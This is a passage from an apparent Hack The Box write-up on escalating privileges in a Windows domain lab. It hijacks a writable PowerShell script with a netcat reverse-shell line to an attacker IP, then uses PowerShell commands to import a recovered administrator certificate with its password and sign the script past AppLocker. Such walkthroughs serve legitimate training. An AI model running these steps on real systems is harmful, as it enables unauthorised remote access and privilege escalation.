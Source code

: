 So this is from the Administrator. Since we have a `.pfx` from the administrator, we can actually use this. In the AppLocker conditions, we can see the subject match some conditions:

<pre class="language-markup" data-overflow="wrap"><code class="lang-markup">&#x3C;RuleCollection Type="Script" EnforcementMode="Enabled">&#x3C;FilePublisherRule Id="12bce21d-8da4-4f93-ab24-eeb9ad0bcc6d" Name="Signed by CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=HTB" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
<strong>&#x3C;FilePublisherCondition PublisherName="CN=ADMINISTRATOR, CN=USERS, DC=WINDCORP, DC=HTB" ProductName="*" BinaryName="*">
</strong></code></pre>

This means that we can run 'any program' if we import this into the Certificate Store of the machine. The question is, what script do we run?

### Script Hijack --> Shell

I was still curious about the `Get-bADpasswords.ps1` script, what was the point of it? I checked the ACLs of it, and found that I could overwrite it:

```
c:\Get-bADpasswords>icacls Get-bADpasswords.ps1
icacls Get-bADpasswords.ps1
Get-bADpasswords.ps1 WINDCORP\ITDep:(I)(M)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Users:(I)(RX)
```

We have Modify Access to this file. So in this case, we can replace it with our own AND then sign it using the certificate. I downloaded it, and made a small edit at the top to use our `Bginfo64.exe` file (which is still `nc.exe`) to gain another reverse shell.

```
C:\share\Bginfo64.exe -e cmd.exe 10.10.14.13 5555
```

Afterwards, we can re-upload this to SMB and use `copy` to overwrite the existing script. Now, we need to sign the script.&#x20;

{% embed url="https://codesigningstore.com/how-to-sign-a-powershell-script" %}

Using the above resource, we can run these commands to sign it:

{% code overflow="wrap" %}
```powershell
$pass = ConvertTo-SecureString -String 'abceasyas123' -AsPlainText -Force
$pfx = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My
Get-ChildItem Cert:\CurrentUser\My -CodeSigningCert
Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $pfx
```
{% endcode %}

This script should let us know that we have imported it:

<figure><img src="../../../.gitbook/assets/image (14) (6) (2).png" alt=""><figcaption></figcaption></figure>
